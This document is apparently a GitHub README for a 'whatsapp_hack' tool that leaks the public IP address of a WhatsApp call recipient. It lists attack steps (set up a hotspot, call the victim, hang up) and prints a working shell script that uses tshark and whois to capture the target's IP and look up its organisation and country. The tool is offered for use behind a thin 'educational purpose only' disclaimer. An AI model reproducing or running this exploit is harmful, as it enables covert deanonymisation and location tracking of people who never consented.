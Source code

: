 # whatsapp_hack
Leak Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim

Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
- Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 4: Call victim on his whatsapp
- Step 5: Disconnect the call once established
- Step 6: Script will reveal the public IP address of the target
- Step 7: Validate the public IP address on target phone

## Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
## Credit

## [bhdresh](https://github.com/bhdresh)
